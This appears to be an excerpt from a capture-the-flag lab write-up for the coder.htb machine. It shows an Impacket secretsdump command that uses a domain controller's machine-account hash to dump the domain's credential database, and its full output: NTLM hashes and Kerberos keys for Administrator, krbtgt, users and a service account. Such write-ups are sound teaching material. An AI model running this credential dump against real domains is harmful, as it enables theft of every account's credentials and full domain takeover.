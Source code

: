     
    
    oxdf@hacky$ secretsdump.py coder.htb/dc01\$@dc01.coder.htb -hashes :56dc040d21ac40b33206ce0c2f164f94 -dc-ip dc01.coder.htb
    Impacket v0.10.1.dev1+20230608.100331.efc6a1c3 - Copyright 2022 Fortra
    
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:26000ce1f6ca4029ec5d3a95631e797c:::
    coder.htb\e.black:1106:aad3b435b51404eeaad3b435b51404ee:e1b96bbb66a073787a3310b5a956200d:::
    coder.htb\c.cage:1107:aad3b435b51404eeaad3b435b51404ee:3ab6e9f70dbc0d19623be042d224b993:::
    coder.htb\j.briggs:1108:aad3b435b51404eeaad3b435b51404ee:e38976c0b20e3e41e9c62da792115a33:::
    coder.htb\l.kang:1109:aad3b435b51404eeaad3b435b51404ee:b8aba4878e4777864b292731ac88b4cd:::
    coder.htb\s.blade:1110:aad3b435b51404eeaad3b435b51404ee:4e4a79beed7d042627d0a7b10f5d008a:::
    coder.htb\svc_teamcity:5101:aad3b435b51404eeaad3b435b51404ee:4c5a6890e09834a6834dbf7a76bf20cb:::
    DC01$:1000:aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94:::
    [*] Kerberos keys grabbed
    Administrator:aes256-cts-hmac-sha1-96:86a6a038ff6058c56a74e2e35008f6b037b8e7bca8c75cc5ee4495f77d0be71e
    Administrator:aes128-cts-hmac-sha1-96:6d63b0853502cbbc8c8e40ad8fe88fa3
    Administrator:des-cbc-md5:37feabd9d9575785
    krbtgt:aes256-cts-hmac-sha1-96:aeb517a1efec8b79479cb1432e734555bc1039bcbd77bcdc39234b37199a70d3
    krbtgt:aes128-cts-hmac-sha1-96:2bab4af978e4cee0b58fa1d377d35981
    krbtgt:des-cbc-md5:100489b5839798cb
    coder.htb\e.black:aes256-cts-hmac-sha1-96:ccb6c47af9a05d91e7610fe396cd8ffcc0e51279a2eee253fab1fb40536a5a85
    coder.htb\e.black:aes128-cts-hmac-sha1-96:650ad0d49ab4bcff325a7f2a846d433f
    coder.htb\e.black:des-cbc-md5:89290da2c2cd16ec
    coder.htb\c.cage:aes256-cts-hmac-sha1-96:ea9cc2144c3106e9325b1ddda16c27c644d9f9b7e95098581ceba19c75d9b296
    coder.htb\c.cage:aes128-cts-hmac-sha1-96:2cff13848c9e8d07339a6ab41bf72088
    coder.htb\c.cage:des-cbc-md5:fd6d578510df1af1
    coder.htb\j.briggs:aes256-cts-hmac-sha1-96:ec3ac8b99094903a3ca006a725dc0867666347efb4baf04d8b2f8b0305ab65ee
    coder.htb\j.briggs:aes128-cts-hmac-sha1-96:39050d78545c40645fa889c13200f8f7
    coder.htb\j.briggs:des-cbc-md5:7f5286d35def8f15
    coder.htb\l.kang:aes256-cts-hmac-sha1-96:d7eb03d2695638c4ba423cd88e22dcdd7c0f6da996e5d6ed3af6c6d7e6c56661
    coder.htb\l.kang:aes128-cts-hmac-sha1-96:25ad8331aa0fa2b26e220040b9e55937
    coder.htb\l.kang:des-cbc-md5:571a573e61ced640
    coder.htb\s.blade:aes256-cts-hmac-sha1-96:ceeab374597121113f3bdee3aab1fed0522506909b2f1ec24dfe36045eb3c252
    coder.htb\s.blade:aes128-cts-hmac-sha1-96:69f4cada02748fba948e4c15460add9e
    coder.htb\s.blade:des-cbc-md5:26eca8ad9deaada2
    coder.htb\svc_teamcity:aes256-cts-hmac-sha1-96:b6c7ed72b4434a89c56295df6b42ca68937702dda15f90f23423e8712abce030
    coder.htb\svc_teamcity:aes128-cts-hmac-sha1-96:d6604e2fadb40bbf71708e7b9c9734a7
    coder.htb\svc_teamcity:des-cbc-md5:264ab5645ed91c86
    DC01$:aes256-cts-hmac-sha1-96:a43b686fdd5f2e576ad834c5b1d4327dd5bdbd3ec579677343a2c6c43c8f1740
    DC01$:aes128-cts-hmac-sha1-96:22192237a3cb399c19a6b469dcd1cba8
    DC01$:des-cbc-md5:cb9758c162ba4943
    [*] Cleaning up...
    